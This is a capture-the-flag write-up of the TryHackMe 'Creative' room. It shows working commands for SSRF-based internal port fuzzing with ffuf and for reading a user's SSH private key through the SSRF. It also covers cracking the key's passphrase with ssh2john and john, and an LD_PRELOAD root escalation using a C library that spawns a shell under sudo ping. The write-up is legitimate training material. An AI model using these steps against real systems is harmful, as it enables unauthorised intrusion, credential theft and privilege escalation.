### Introduction
Hello👋 Today we're going to take a look at [Creative](./https://tryhackme.com/r/room/creative) room on TryHackMe by sSaadakhtarr. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] creative.thm
```
We can now take a look at the website ```http://creative.thm```. It looks like a simple html website.


### Enumeration
We'll just start off with a simple Nmap scan. We see that the ports 22 and 80 are open.


Let's try to find some directories with Gobuster.
```bash
gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/direcotry-list-lowercase-2.3-medium.txt
```

Hmmm nothing interesting there. Let's try subdomains.
```bash
gobuster vhost -u http://creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain creative.thm
```

We found something. Let's check it out. Add ```beta.creative.thm``` to your ```/etc/hosts```.


Ok, it explains what it does. Let's test it! I have created a test.txt and setup a python http server.


And it connects! We can see that it sends a GET request and on the website it displays the test.txt.


Let's try and see if we can connect to the localhost (127.0.0.1) of the website.

Which returns the content of the page.


Now let's try to see if there are any ports that are not accesible from the outside. We'll use ```ffuf``` for this. But we first need to make a ports.txt we can do that with ```seq```.
```bash
seq 65535 > ports.txt
```

```bash
ffuf -u http://beta.creative.thm/ -w ports.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://localhost:FUZZ" -fw 3
```

And we got a open port 1337!

### Getting Access
Now, with the ```http://localhost:1337/``` payload on ```http://beta.creative.thm```, we are able to get the contents of the web server.




Let's try going to ```/home``` and see what users we got.


We get a user called Saad. Let's go into Saad's home folder.


We can see that Saad has a .ssh folder.


Let's get Saad ```id_rsa```


To get the correct formatting of the ```id_rsa``` (to not get any errors when logging in with ssh), you'll have to view page source and then copy the contents of the ```id_rsa```.


After having copied the ```id_rsa``` we have to give 600 permission to the ```id_rsa```.



Looks like we need a passphrase. We can use ```john``` to get the password but we first have to convert the ```id_rsa``` to a .hash with ```ssh2john``` like so.
```bash 
ssh2john id_rsa > id_rsa.hash
```


```bash 
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```


Nice! We got the passphrase, now we can ssh into Saad.



And we're able to get the first flag 😃



### Privilege Escalation
After looking a bit around I found Saad's password in the **.bash_history**.


We can then see what privileges we have with ```sudo -L```.

We see that Saad can run ```ping``` as root, but we can't do much with ```ping```. If we look closely on the ```sudo -L``` output, we can see that it contains:
```bash
env_keep+=LD_PRELOAD
```

The ```LD_PRELOAD``` environment variable is used to specify shared libraries that should be loaded before others when a program is run. This allows us to override functions in existing libraries. We can leverage this feature to inject malicious code into a process running with elevated privileges. 

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
Next we'll have to compile it.
```bash
gcc -fPIC -shared -o escalate.so escalate.c -nostartfiles
```

Finally, we run the ```ping``` command with our ```LD_PRELOAD``` variable pointing to our malicious library
```bash
sudo LD_PRELOAD=/tmp/escalate.so /usr/bin/ping
```


And we get root and are able to get the second flag 🥳 This was a fun room, hope you learned something from this write-up. Happy Hacking!